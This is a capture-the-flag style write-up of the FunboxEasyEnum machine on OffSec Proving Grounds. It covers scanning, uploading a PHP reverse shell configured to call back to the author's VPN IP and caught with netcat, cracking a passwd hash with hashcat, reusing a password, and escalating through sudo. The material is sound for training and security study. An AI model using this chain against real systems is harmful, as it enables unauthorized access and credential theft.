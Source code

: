 ```yaml
---
title: FunboxEasyEnum Writeup
author: mooncakeza
date: 2021-06-01 08:30am
categories: [writeup, offsec, proving grounds]
tags: [writeup, offsec, proving grounds]
math: true
mermaind: true
image: /assets/img/pg/provinggrounds.png
---
```


This is my first <a href="https://www.offensive-security.com/">Offensive Security</a> writeup of a machine on their <a href="https://www.offensive-security.com/labs/">Proving Grounds</a> platform. 
<br>
I signed up for the free labs and managed to do 2 easy machines and get this writeup done before the daily 3 hour timer expired.

## Enumeration

Starting with Rustscan with NMAP. I have cleaned up the output to just show the relevant info.

```bash
└─$ rustscan -a 192.168.245.132 -u 5000 -- -A -sC -sV                                 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/mooncake/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.245.132:22
Open 192.168.245.132:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-31 07:41 SAST
Scanned at 2021-05-31 07:41:48 SAST for 15s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3a6aFbaxLEn4AMDXmMVZdNfaQuJQ/AcPHffagHb77o1FmSe+6tlCRHMil9l4qJILffRQHkdbQJtrlBk52V35SHfPp8x89B+Pfv7slkKxXE7fkZBIJuUjHF+YAoSakOtY72d7o6Bet2AwCijSBzZ1bkVC4i/L9euG2Oul5oA2iFlnzwYjrhki6MFNFJvvyoOqcJr1zS+w4W0NO1RexielQsxeUG3khrfVYts5kWFQPr39tk52zRZ/gpAKjR00XN4N5mi/mBjvvgnlVX4DNeyxh5r+E5sdLGzJ0Vk8JzjDW7eK70kv2KmVCFSJNceUjfaIV+K4z9wFoy6qZte7MxhaV
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAoJi5En616tTVEM4UoE0AVaXFn6+Rhike29q/pKZh5nIPQfNr9jqz2II9iZ5NZCPwsjp3QrsmTdzGwqUbjMe0c=
|   256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO+CVl8CiYP8L+ni0CvmpS7ywOiJU62E3O6L8G2n/Yov
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.17 seconds
```

With only ports 22 and 80 open we fire up Feroxbuster and find the following:

![Desktop View](/assets/img/pg/funboxeasyenum/Feroxbusterminiphp.png)

We found http://192.168.145.132/mini.php
<br>
Browsing to it and I see you can upload files.

![Desktop View](/assets/img/pg/funboxeasyenum/MiniShellPHP.png)

## Foothold

We grab the php-reverse-shell.php on our Kali machine and rename it to shell.php

```bash
-$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

We change the following in the file to match our VPN ip as well as the port we are going to use to listen on for a reverse shell.

```bash
$ip = '192.168.49.245';  // CHANGE THIS
$port = 9998;       // CHANGE THIS
```

In another terminal we start a netcat listener.

```bash
$ nc -lvnp 9998
listening on [any] 9998 ...
```
We then browse back to http://192.168.245.132/mini.php and upload the shell.php

![Desktop View](/assets/img/pg/funboxeasyenum/Shell upload.png)

Once uploaded, it showed up in the list.

![Desktop View](/assets/img/pg/funboxeasyenum/Shell filed uploaded.png)

We now have to change the permissions to execute otherwise the webserver will not be able to execute the php file to run our reverse shell. We changed the permissions to 0777. Drastic I know.

![Desktop View](/assets/img/pg/funboxeasyenum/Shellfilepermissions.png)

![Desktop View](/assets/img/pg/funboxeasyenum/Shellfilepermissionschange.png)

Once done, browse to http://192.168.245.132/shell.php
<br>
We then received the shell in our netcat listener window.

![Desktop View](/assets/img/pg/funboxeasyenum/ReverseShell.png)

## local flag

We first have to get an interactive shell, so we use the python method.

```bash
$ python3 -c  'import pty; pty.spawn("/bin/bash")'
www-data@funbox7:/$ 
```

We browse to the www-data home directory and see the following.


![View-Desktop](/assets/img/pg/funboxeasyenum/Firstflag.png)

The proof.txt file! Easy win without having to enumerate anywhere else on the machine.

Unfortunately we are only www-data and still need to get to root.

## User Escalation

Let us see what users are on the machine.

![Desktop-View](/assets/img/pg/funboxeasyenum/Passwdfile.png)

We find a hash for the oracle user.
<br>
Let's identify the type of hash.

![Desktop-View](/assets/img/pg/funboxeasyenum/IdentifyHash.png)

<br>
Let us check [hashcat examples](https://www.google.com/search?client=firefox-b-d&q=hashcat+examples) to verify.
<br>
As we can see it's a md5Crypt hash.

![Desktop-View](/assets/img/pg/funboxeasyenum/hashcatexamples.png)

Let's crack it.

```bash
hashcat -m 500 oracle.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

![Desktop-View](/assets/img/pg/funboxeasyenum/hashcatcracked.png)

Hash cracked.
<br>
We try to ssh as the oracle user but this didn't work but doing a su to the user worked.
<br>
We upload LinPEAS.sh to find anything useful.

![Desktop-View](/assets/img/pg/funboxeasyenum/linpeasupload.png)

LinPEAS didn't give much but we did find the following users and only the user karla was interesting as this user seems to have much more access on the system than the others.

![Desktop-View](/assets/img/pg/funboxeasyenum/Usersonbox.png)

Further enumeration was needed. I remembered seeing phpMyAdmin from Feroxbuster. I searched for phpMyAdmin config file and found the following.

![Desktop-View](/assets/img/pg/funboxeasyenum/phpmyadminconfig.png)

Could this password be reused for karla? One way to try.

![Desktop-View](/assets/img/pg/funboxeasyenum/KarlaSSH.png)

Success.

## Priviledge Escalation

As we saw the user karla was part of the sudoers group, we immediately check what sudo commands can be run.

![Desktop-View](/assets/img/pg/funboxeasyenum/Karlasudo.png)

Seems like karla is allowed to run all commands on the system while using sudo.
<br>
We can simply just get a bash shell by running the following.

![Desktop-View](/assets/img/pg/funboxeasyenum/KarlaPrivsec.png)

## proof flag

Let's go check the root directory for the loot.

![Desktop-View](/assets/img/pg/funboxeasyenum/SecondFlag.png)

